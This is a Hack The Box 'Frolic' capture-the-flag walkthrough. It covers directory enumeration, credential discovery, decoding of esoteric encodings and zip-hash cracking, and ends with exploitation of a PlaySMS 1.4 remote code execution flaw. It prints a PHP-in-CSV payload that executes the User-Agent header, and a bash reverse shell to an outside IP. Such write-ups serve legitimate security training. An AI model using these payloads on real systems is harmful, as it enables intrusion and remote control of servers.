# 10 - HTTP


# VHOST


We start with 9999 because it looks more promising. Right off the bat we see a virtual host. Let's add that to our /etc/hosts and continue.


#  Gobuster



Gobuster found several locations. "dev", "admin" and "backup" sound interesting. I am guessing that I'll have to find some credentials in backup to log in on /admin.

# backup
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ curl http://forlic.htb:9999/backup/
password.txt
user.txt
loop/
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ curl http://forlic.htb:9999/backup/password.txt
password - imnothuman
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ curl http://forlic.htb:9999/backup/user.txt
user - admin
```


Wow, that was easy but the my assumption turned out to be wrong. The credentials do not work on /admin/. Now, I think it's time to take a look at /admin/.

# admin


While viewing the source I immediately noticed login.js. Typically, it's the server's job to authenticate users. In our case, authentication seems to be handled by browsers. It means we can access the source code of login.js.

# Credentials



That is the second credentials we found. There may be more. Let's keep note of the passwords.

# success.html


```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ cat success.html 
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... .....
..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... .....
....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! .....
..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!!
!!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... .....
..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?.
?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... .....
..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!!
!.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!!
!!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?!
.?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?..
!.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?.
?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!!
!.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!!
!.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. .....
..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!!
!!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!!
!!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .....
..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?.
```

Success.html contains weird characters. The response is probably encoded by some language like brainfuck. In order to find out what this encoding is, we must google around

# Ook! 



Alright, we found the language. It's Ook Programming language. Let's decode success.html.



```
Nothing here check /asdiSIAJJ0QWE9JAS
```
That is probably another location.

#  Base64 encoded text


The response is base64 encoded. It is likely another tricky response like Ook.

# Encrypted zip
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ curl -s http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/   > text.b64
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ base64 -d text.b64  > text
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ file text
text: Zip archive data, at least v2.0 to extract
...


┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ unzip text.zip 
Archive:  text.zip
[text.zip] index.php password: 
```

It's an encrypted zip file. zip2john is a great tool to extract hash from zip to crack.

# Cracked

```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ zip2john text.zip  > hash
ver 2.0 efh 5455 efh 7875 text.zip/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=176, decmplen=617, crc=145BFE23
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (text.zip/index.php)
1g 0:00:00:00 DONE (2021-08-31 19:41) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

* zip: password

# Hex encoded index.php
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]                                                                                                                                              
└──╼ $ unzip text.zip                                                                                                                                                                         
Archive:  text.zip                                                                                                                                                                            
[text.zip] index.php password:                                                                                                                                                                
  inflating: index.php               
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ cat index.php                                                                           
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a786450
69734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

Digits [0-9] and characters [a-f], it is definitely hex encoded.

# Another base64 encoding
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ cat index.php  |xxd -p -r
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```

Base64 is having problem decoding this text because it has CRLF line terminators. We need to get rid of them.


# Converting CRLF to LF
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ cat index.php  |xxd -p -r  > unknown.b64
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ file unknown.b64 
unknown.b64: ASCII text, with CRLF line terminators
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ dos2unix unknown.b64 
dos2unix: converting file unknown.b64 to Unix format...
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/text]
└──╼ $ base64 -d unknown.b64 
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```

After converting windows like line terminators to linux like we discover that the contents of index.php is brainfuck encoded. 

# Brainfuck


*idkwhatispass* is probably another password. It goes to our password list too.

# Dev
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/gobuster]
└──╼ $ cat *  |grep -v 403 | sort -u 
/admin                (Status: 301) [Size: 194] [--> http://forlic.htb:9999/admin/]
/backup               (Status: 301) [Size: 194] [--> http://forlic.htb:9999/backup/]
/backup               (Status: 301) [Size: 194] [--> http://forlic.htb:9999/dev/backup/]
/dev                  (Status: 301) [Size: 194] [--> http://forlic.htb:9999/dev/]
/index.php            (Status: 200) [Size: 84054]
/loop                 (Status: 301) [Size: 194] [--> http://forlic.htb:9999/backup/loop/loop/]
/loop                 (Status: 301) [Size: 194] [--> http://forlic.htb:9999/loop/]
/loop                 (Status: 301) [Size: 194] [--> http://forlic.htb:9999/loop/loop/]
/.                    (Status: 301) [Size: 194] [--> http://forlic.htb:9999/./]
/.                    (Status: 301) [Size: 194] [--> http://forlic.htb:9999/backup/loop/./]
/.                    (Status: 301) [Size: 194] [--> http://forlic.htb:9999/dev/./]
/.                    (Status: 301) [Size: 194] [--> http://forlic.htb:9999/loop/./]
/.                    (Status: 301) [Size: 194] [--> http://forlic.htb:9999/test/./]
/test                 (Status: 200) [Size: 5]
/test                 (Status: 301) [Size: 194] [--> http://forlic.htb:9999/test/]
```

Another backup directory is located in /dev/.

# Backup
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/gobuster]
└──╼ $ curl http://10.10.10.111:9999/dev/backup/
/playsms
```
playSMS is an open source SMS management software. Credentials we have obtained might work on playSMS, let's give it a try.

# playSMS


# admin


Credentials:

* admin: idkwhatispass


# PlaySMS 1.4 - 'import.php' Remote Code Execution




There is a ton of exploits in exploitdb's database. I couldn't find a way to see the version so I used metasploit to make sure the version 1.4 is vulnerable to RCE  and then I followed import.php PoC to get a shell into the box without metasploit for the sake of OSCP

# exploit.csv
```php
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic]
└──╼ $ cat exploit.csv 
Name,Mobile,Email,Group code,Tags
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>,22,44,ta
```

exploit.csv is a basic csv file that contains a php code. system function is triggered with our User-Agent, so User-Agent becomes our command.


# Payload



Once submitted, the webserver will try to load the csv file onto the screen, right here if we change User-Agent to anything it will get executed.
# Code execution




# Reverse Shell

```
User-Agent: bash -c  'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'
```

Reverse part should be easy and I think it speaks for itself.

